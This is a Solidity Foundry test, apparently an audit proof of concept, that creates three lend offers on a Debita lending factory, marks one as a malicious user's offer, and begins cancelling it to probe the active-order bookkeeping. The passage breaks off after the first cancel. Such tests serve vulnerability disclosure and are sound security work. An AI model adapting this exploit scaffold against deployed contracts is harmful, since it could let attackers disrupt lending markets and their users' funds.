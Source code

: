 ```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Test, console, stdError} from "forge-std/Test.sol";
import {DLOFactory} from "@contracts/DebitaLendOfferFactory.sol";
import {DLOImplementation} from "@contracts/DebitaLendOffer-Implementation.sol";

import {ERC20Mock} from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";

contract MockCollateral is ERC20Mock {}

interface IDLOImplementation {
    function cancelOffer() external;
    function addFunds(uint amount) external;
}

contract DebitaLendOfferFactoryTest is Test {
    DLOFactory public factory;
    DLOImplementation public dli;
    MockCollateral public collateral;
    address attacker = makeAddr("attacker");

    function setUp() public {
        dli = new DLOImplementation();
        factory = new DLOFactory(address(dli));
        collateral = new MockCollateral();
    }

    function testCreateLendOffer() public {
        collateral.mint(address(this), 100);
        collateral.approve(address(factory), 100);

        // Create 3 valid borrow offers
        // Assume the third one is malicious user's offer
        address[] memory lendOffers = new address[](3);
        for (uint i = 0; i < 3; i++) {
            address lendOffer = factory.createLendOrder(
                false,
                new bool[](0),
                true,
                new uint[](0),
                1,
                1,
                1,
                new address[](0),
                address(collateral),
                new address[](0),
                new uint[](0),
                address(0),
                10 + i
            );
            lendOffers[i] = lendOffer;
        }

        console.log("lendOffers[0]", lendOffers[0]);
        console.log("lendOffers[1]", lendOffers[1]);
        console.log("lendOffers[2]", lendOffers[2]);
        console.log("allActiveLendOrders[0]", factory.allActiveLendOrders(0));
        assertEq(factory.activeOrdersCount(), 3);

        console.log("----------------------------------------------");
        IDLOImplementation(lendOffers[2]).cancelOffer();
        console.log("after first cancelOffer");
```
